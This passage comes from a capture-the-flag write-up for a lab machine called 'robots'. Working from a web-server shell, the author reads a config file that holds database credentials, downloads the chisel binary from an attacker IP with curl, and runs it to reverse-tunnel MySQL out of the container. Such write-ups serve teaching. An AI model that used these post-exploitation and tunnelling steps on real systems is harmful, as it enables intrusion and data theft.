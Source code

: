 ```console

www-data@robots:/var/www/html/harm/to/self$ export TERM=xterm
www-data@robots:/var/www/html/harm/to/self$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as rgiskard

### Discovering Database Configuration

Looking at the application files, we find the database configuration inside `/var/www/html/harm/to/self/config.php`:

```console
www-data@robots:/var/www/html/harm/to/self$ cat config.php
<?php
    $servername = "db";
    $username = "robots";
    $password = "q4qCz1OflKvKwK4S";
    $dbname = "web";
...
```

### Connecting to the Database

From the configuration, we see that the database is running on the `db` host. Using `getent`, we can retrieve the `IP` address for the `db` host:

```console
www-data@robots:/var/www/html/harm/to/self$ getent hosts db
172.18.0.2      db
```

Since the `mysql` client is not installed in the container, we can set up **port forwarding** using `chisel` to connect to the database from our local machine.

First, starting the `chisel` server on our machine:

```console
$ chisel server -p 7777 --reverse
2025/03/15 16:19:32 server: Reverse tunnelling enabled
2025/03/15 16:19:32 server: Fingerprint M8ENXLPJmDTJpDBgaGjDpK7wikwRFfIpUYXgPIiH77c=
2025/03/15 16:19:32 server: Listening on http://0.0.0.0:7777
```

Next, transfering `chisel` into the container using `curl`:

```console
www-data@robots:/var/www/html/harm/to/self$ curl -s http://10.8.64.79/chisel -o /tmp/chisel
```

Forwarding the database port using `chisel`:

```console
www-data@robots:/var/www/html/harm/to/self$ chmod +x /tmp/chisel
www-data@robots:/var/www/html/harm/to/self$ /tmp/chisel client 10.8.64.79:7777 R:3306:172.18.0.2:3306 &
[1] 185
2025/03/15 16:22:48 client: Connecting to ws://10.8.64.79:7777
2025/03/15 16:22:49 client: Connected (Latency 86.795677ms)
```
